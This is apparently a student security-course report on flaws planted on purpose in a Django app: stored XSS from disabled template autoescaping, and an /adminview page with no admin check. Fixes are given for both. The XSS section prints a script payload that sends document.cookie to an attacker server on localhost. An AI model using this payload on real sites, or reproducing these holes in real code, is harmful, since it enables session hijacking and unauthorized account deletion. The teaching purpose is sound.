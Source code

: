 ### Link(s) to the flaw occurrence in code:

 - Link 1: https://github.com/Pekk4/csb-project1/blob/c2d233967f38b2849b7d76ad1d62d0af512fbc3d/project/vulnerableApp/templates/xssmessages.html#L1

### Description

In the application there is a link in main page which directs user to the page, where they can see all of the messages in the application. Application has had a little careless developer
who has forgot to turn templates autoescaping back on after testing something with it off (link 1). Now that page is vulnerable to Cross-Site Scripting attacks and the attacker has noticed this.
The attacker has sent a message

```
<script>window.location.href = "http://localhost:9000/xss?"+document.cookie;</script>
```

into the application and now that vulnerable page directs users to attacker's server (found from project's attacker/ directory) which stoles their sessions and cookies and
then sends messages with their privileges in the app. This kind of XSS where it is stored in and then fetched from the persistent storage (database), is called as stored XSS (or persistent XSS).

### Fixes

Once again a flaw which Django has built-in protection against and one needs to make an effort to get this flaw into their Django app. Anyway, removing autoescape off from the templates
prevents application to be vulnerable for XSS attacks, as with autoescaping Django sanitizes all the content rendered in templates and thus the malicious JavaScript will not be run when
the page is loaded.

 - https://github.com/Pekk4/csb-project1/blob/aec735730bcf4cb9ff5e592f52b81356b73604b1/project/vulnerableApp/templates/xssmessages.html#L1


## FLAW 4: Broken Access Control

### Link(s) to the flaw occurrence in code:

 - Link 1: https://github.com/Pekk4/csb-project1/blob/04abc5fbb3b01c641719b2520aa3e167bdb4d1c3/project/vulnerableApp/views.py#L58
 - Link 2: https://github.com/Pekk4/csb-project1/blob/04abc5fbb3b01c641719b2520aa3e167bdb4d1c3/project/vulnerableApp/views.py#L64

### Description

Once again the developer has been a little careless while implementing some admin functionalities into the application. Now there is a page in path /adminview to see application's
users and it has also an option to delete them. Unfortunately everyone could reach that page if they just know or guess the correct URL and nothing checks if the user is admin or not.

### Fixes

Fortunately this is a easy flaw to fix, as it is sufficient to check that the user has admin privileges and thus is allowed to delete users. Django has a built-in method for that,
which returns a boolean value depending on the user's status.
